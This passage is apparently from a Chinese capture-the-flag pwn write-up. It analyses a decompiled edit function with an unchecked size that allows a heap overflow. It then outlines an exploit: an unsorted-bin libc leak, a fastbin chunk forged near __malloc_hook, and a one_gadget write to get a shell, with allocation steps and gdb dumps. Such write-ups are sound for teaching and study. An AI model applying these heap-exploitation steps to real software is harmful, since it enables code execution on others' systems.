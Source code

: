 再看看edit函数，这里输入的大小size，程序并没有对size的范围进行判断，也就是说存在溢出。

```
__int64 __fastcall edit(__int64 *a1)
`{`
  __int64 result; // rax
  int index; // [rsp+18h] [rbp-8h]
  int size; // [rsp+1Ch] [rbp-4h]

  printf("Index: ");
  result = input_num();
  index = result;
  if ( (int)result &gt;= 0 &amp;&amp; (int)result &lt;= 15 )
  `{`
    result = LODWORD(a1[3 * (int)result]);
    if ( (_DWORD)result == 1 )
    `{`
      printf("Size: ");
      result = input_num();
      size = result;
      if ( (int)result &gt; 0 )
      `{`
        printf("Content: ");
        result = input_content(a1[3 * index + 2], size);
      `}`
    `}`
  `}`
  return result;
`}`
```

然后free掉chunk或也进行了置零操作，没什么好说的。

我们可以先通过泄露出unsortbin的bins头来泄露libc的基址，然后将one_gadget的地址写入`__malloc_hook` ，然后在进行分配的时候就能够getshell了。

我们可以先申请这样几块chunk：，然后我们就要想办法伪造一块free掉的chunk，使其fd指针指向unsortbin的bins头，然后进行输出泄露出地址。

我们可以对第0块chunk进行溢出，修改chunk1的size位，修改后的size位要能够覆盖chunk1和chunk2，因此可以修改为0xb1，然后free掉chunk1，此时这一大块chunk就会放入unsortbin中，再申请一块大小为0x10的chunk，bin中就剩下了chunk2这块chunk，但是实际上这块chunk没有被free掉，但是此时他的fd指针已经指向了unsortbin的bins头，直接输出就能够泄露出libc的基址了。

```
add(0x10) # 0
add(0x10) # 1
add(0x80) # 2
add(0x10) # 3
```

在gdb中查看一下这个地址，发现与main_arena偏移为88，在之上可以找到`__malloc_hook` 的地址，借此泄露出libc的基址。然后我们还能再这之前找到一处适合伪造chunk的地址，伪造大小为0x71的chunk，通过修改rfree掉的chunk的fd指针指向此处，然后把它申请出来，就可以对`__malloc_hook` 进行修改了。

```
gdb-peda$ x /gx 0x7ffff7dd1b78
0x7ffff7dd1b78 &lt;main_arena+88&gt;:    0x00005555557570c0

gdb-peda$ x /gx 0x7ffff7dd1aed
0x7ffff7dd1aed &lt;_IO_wide_data_0+301&gt;:    0xfff7dd0260000000
gdb-peda$
0x7ffff7dd1af5 &lt;_IO_wide_data_0+309&gt;:    0x000000000000007f
gdb-peda$
0x7ffff7dd1afd:    0xfff7a92ea0000000
gdb-peda$
0x7ffff7dd1b05 &lt;__memalign_hook+5&gt;:    0xfff7a92a7000007f
gdb-peda$
0x7ffff7dd1b0d &lt;__realloc_hook+5&gt;:    0x000000000000007f
```
